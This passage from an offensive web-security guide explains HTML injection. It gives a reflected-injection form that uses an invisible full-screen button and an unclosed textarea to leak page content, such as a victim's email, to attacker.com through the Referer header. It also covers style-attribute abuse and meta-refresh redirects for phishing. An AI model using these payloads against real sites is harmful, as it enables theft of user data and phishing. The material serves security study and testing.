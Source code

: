 If the HTML-injection is _reflected with a_ _GET parameter_, you can elegantly include this parameter in the form submission to the vulnerable endpoint:

<pre class="language-html" data-title="HTML Source"><code class="lang-html">&#x3C;form action="" method="GET">
<strong>&#x3C;input type="hidden" name="html" value="&#x3C;img src=https://attacker.com referrerpolicy=unsafe-url>">
</strong>&#x3C;button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0">&#x3C;/button>
&#x3C;textarea name="leak">
&#x3C;p>Your email: victim@example.com&#x3C;/p>
&#x3C;div class="note">
  &#x3C;textarea>&#x3C;/textarea>
&#x3C;/div>
</code></pre>

It will redirect the victim to the current path with query parameters like:

[https://target.com/vulnerable?html=%3Cimg+src%3Dhttps%3A%2F%2Fattacker.com+referrerpolicy%3Dunsafe-url%3E\&leak=%3Cp%3EYour+email%3A+victim%40example.com%3C%2Fp%3E%0D%0A%3Cdiv+class%3D%22write-note%22%3E%0D%0A++%3Ctextarea%3E](https://target.com/vulnerable?html=%3Cimg+src%3Dhttps%3A%2F%2Fattacker.com+referrerpolicy%3Dunsafe-url%3E\&leak=%3Cp%3EYour+email%3A+victim%40example.com%3C%2Fp%3E%0D%0A%3Cdiv+class%3D%22write-note%22%3E%0D%0A++%3Ctextarea%3E)

Then, the same as with the stored example happens, the injected referer payload leaks the current URL with `&leak=`, and the attacker can decode it from their server logs.

## CSS Injection

If you can inject `<style>` tags, check out the following page on how to abuse that to leak other content on the page through selectors and fonts:

{% content-ref url="../css-injection.md" %}
[css-injection.md](../css-injection.md)
{% endcontent-ref %}

In case you can only set the `style=` attribute, you cannot work with selectors or define fonts. This limits your abilities, but still allows two main ideas:

1. Set specific styles to full-screen any element you want, like an image to phish the user with a message and QR code, or even an iframe as explained in [#iframes](html-injection.md#iframes "mention").
2. Use `background-image: url(...)` to trigger a subresource request that can return a malicious `Link:` header as explained in [#link-response-header-with-preload-chrome-less-than-136](html-injection.md#link-response-header-with-preload-chrome-less-than-136 "mention").

## Redirect

One powerful HTML tag that can't even be mitigated by a CSP is the `<meta>` tag:

```html
<meta http-equiv="refresh" content="0; url=https://example.com">
```

With this `http-equiv=` value it acts as the [`Refresh:`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Refresh) header, redirecting the document to a new URL after some number of seconds (0 in this case). It's a great way to get a victim to your attacker's page, either for phishing or to initiate another attack that requires you to have more control over the browser, such as CSRF or a complex XSS.
